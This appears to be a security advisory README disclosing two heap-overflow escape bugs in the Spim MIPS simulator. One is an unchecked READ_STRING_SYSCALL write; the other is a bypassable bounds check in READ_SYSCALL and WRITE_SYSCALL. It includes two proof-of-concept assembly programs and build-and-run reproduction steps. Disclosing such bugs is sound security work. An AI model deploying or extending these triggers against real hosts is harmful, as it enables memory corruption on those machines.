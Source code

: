 ### 1. Description

Spim is a self-contained simulator that runs MIPS32 programs. It reads and executes assembly language programs written for this processor. Spim also provides a simple debugger and a minimal set of operating system services. Spim does not execute binary (compiled) programs.

We have discovered two escape vulnerabilities in the Spim simulator, which allow attackers to corrupt the host machine's memory through heap overflow.

Project Location: [https://sourceforge.net/p/spimsimulator/code/HEAD/tree/](https://sourceforge.net/p/spimsimulator/code/HEAD/tree/)  
Affected Versions: <= 9.1.24

### 2. Analysis

The Spim simulator creates the virtual machine's memory during startup via the `make_memory` function, allocating memory for segments such as `text_seg`, `data_seg`, and `stack_seg`.

```c
// spim-9.1.24:/CPU/spim-utils.cpp:116
void make_memory(int text_size, int data_size, int data_limit, int stack_size,
                 int stack_limit, int k_text_size, int k_data_size,
                 int k_data_limit) {
  if (text_seg == NULL)
    text_seg = (instruction **)xmalloc(BYTES_TO_INST(text_size));
  else {
    free_instructions(text_seg, (text_top - TEXT_BOT) / BYTES_PER_WORD);
    text_seg = (instruction **)realloc(text_seg, BYTES_TO_INST(text_size));
  }
  ...
  data_size = ROUND_UP(data_size, BYTES_PER_WORD); /* Keep word aligned */
  if (data_seg == NULL)
    data_seg = (mem_word *)xmalloc(data_size);
  else
    data_seg = (mem_word *)realloc(data_seg, data_size);
  ...
  stack_size = ROUND_UP(stack_size, BYTES_PER_WORD); /* Keep word aligned */
  if (stack_seg == NULL)
    stack_seg = (mem_word *)xmalloc(stack_size);
  else
    stack_seg = (mem_word *)realloc(stack_seg, stack_size);
...
}
```

We can use a diagram to illustrate the memory mapping between the virtual machine and the host machine.

<div align="center">
<img src="asserts/vm.png" alt="Description" style="max-width:70%; height:auto;"
height="300">
</div>

The virtual machine's memory access is translated to the host machine's address space via the `mem_reference` function.

```c
void *mem_reference(mem_addr addr) {
  if ((addr >= TEXT_BOT) && (addr < text_top))
    return addr - TEXT_BOT + (char *)text_seg;
  else if ((addr >= DATA_BOT) && (addr < data_top))
    return addr - DATA_BOT + (char *)data_seg;
  else if ((addr >= stack_bot) && (addr < STACK_TOP))
    return addr - stack_bot + (char *)stack_seg;
  else if ((addr >= K_TEXT_BOT) && (addr < k_text_top))
    return addr - K_TEXT_BOT + (char *)k_text_seg;
  else if ((addr >= K_DATA_BOT) && (addr < k_data_top))
    return addr - K_DATA_BOT + (char *)k_data_seg;
  else {
    run_error("Memory address out of bounds\n");
    return NULL;
  }
}
```

### BUG1: Out-of-Bounds Write in `read_input` Function

The Spim simulator implements 17 system calls for the MIPS architecture, including basic I/O, memory expansion, program exit, file opening, and reading/writing.

```c
// spim-9.1.24:/CPU/syscall.cpp:101
int do_syscall() {
#ifdef _WIN32
  windowsParameterHandlingControl(0);
#endif

  /* Syscalls for the source-language version of SPIM.  These are easier to
     use than the real syscall and are portable to non-MIPS operating
     systems. */

  switch (R[REG_V0]) {
    ...
    case READ_STRING_SYSCALL: {
      read_input((char*)mem_reference(R[REG_A0]), R[REG_A1]);
      data_modified = true;
      break;
    }
    ...
  }
}
```

We analyzed the `READ_STRING_SYSCALL` system call, which takes two parameters: the `A0` register specifies the starting address in memory to write to, and the `A1` register specifies the length of the write. The vulnerability arises because there is no boundary check on the memory write, leading to a memory overflow. The overflow can corrupt the host machine's memory. We provide `poc.asm` and illustrate the vulnerability with the following diagram.

<div align="center">
<img src="asserts/overlap1.png" alt="Description" style="max-width:70%; height:auto;"
height="300">
</div>

- poc.asm

```asm
.data
msg:   .asciiz "proof of concept of **READ_STRING_SYSCALL** memory overflow\n"

.text
.globl main
main:   
        li  $v0, 4
        la  $a0, msg
        syscall          # print message

        li  $v0, 8
        lui $a0, 0x7fff
        ori $a0, 0xfffc  # set A0 0x7fff (0x80000000 - 4)
        li  $a1, 0x8     # set A1 8
        syscall          # read_input(0x80000000-4, 8)
```

- Reproduction Steps

```bash
(reproduce) $ svn checkout https://svn.code.sf.net/p/spimsimulator/code/ spimsimulator
(reproduce) $ cd spimsimulator/spim/
(reproduce) $ LDFLAGS=-fsanitize=address CXXFLAGS=-fsanitize=address make
(reproduce) $ printf 'ABCDE' \
              | ./spim -exception_file ../CPU/exceptions.s ../../poc1.asm
```

<div align="center">
<img src="asserts/poc1.png" alt="Description" style="max-width:100%; height:auto;"
height="300">
</div>

### BUG2: Bypass Check in `READ_SYSCALL` and `WRITE_SYSCALL` Leading to Out-of-Bounds Read/Write

This vulnerability occurs in the `READ_SYSCALL` and `WRITE_SYSCALL` functions. Before performing memory read/write operations, the code checks the validity of the memory segment's end address via `(void)mem_reference(R[REG_A1] + R[REG_A2] - 1);`. However, this check is flawed.

```c
int do_syscall() {

  switch (R[REG_V0]) {
    ...
    case READ_SYSCALL: {
      /* Test if address is valid */
      (void)mem_reference(R[REG_A1] + R[REG_A2] - 1);
      R[REG_RES] = read(R[REG_A0], mem_reference(R[REG_A1]), R[REG_A2]);
      data_modified = true;
      break;
    }

    case WRITE_SYSCALL: {
      /* Test if address is valid */
      (void)mem_reference(R[REG_A1] + R[REG_A2] - 1);
      R[REG_RES] = write(R[REG_A0], mem_reference(R[REG_A1]), R[REG_A2]);
      break;
    }
    ...
  }

}
```

We can illustrate this vulnerability with the following diagram. An attacker can set the starting address of the read/write operation to a valid address in the virtual machine's memory and the end address to another valid address, but the starting and ending addresses are in different memory segments, causing an overflow into the host machine's memory.

<div align="center">
<img src="asserts/overlap2.png" alt="Description" style="max-width:70%; height:auto;"
height="300">
</div>

- poc2.asm

```asm
.data
msg:   .asciiz "proof of concept of **WRITE_SYSCALL** and **READ_SYSCALL**   memory overflow\n"

.text
.globl main
main:   
        li  $v0, 4
        la  $a0, msg
        syscall          # print message

        li  $v0, 14      # READ_SYSCALL
        li  $a0, 0       # stdin
        lui $a1, 0x7fff
        ori $a1, 0xfffc  # set A2 0x7ffffffc (0x80000000 - 4)
        li  $a2, 0x8     # set A1 8          (0x80000000 + 4)
        syscall          # read(0, 0x80000000-4, 8)
```

- Reproduction Steps

```bash
(reproduce) $ svn checkout https://svn.code.sf.net/p/spimsimulator/code/ spimsimulator
(reproduce) $ cd spimsimulator/spim/
(reproduce) $ LDFLAGS=-fsanitize=address CXXFLAGS=-fsanitize=address make
(reproduce) $ printf 'ABCDE' \
              | ./spim -exception_file ../CPU/exceptions.s ../../poc2.asm
```

<div align="center">
<img src="asserts/poc2.png" alt="Description" style="max-width:100%; height:auto;"
height="300">
</div>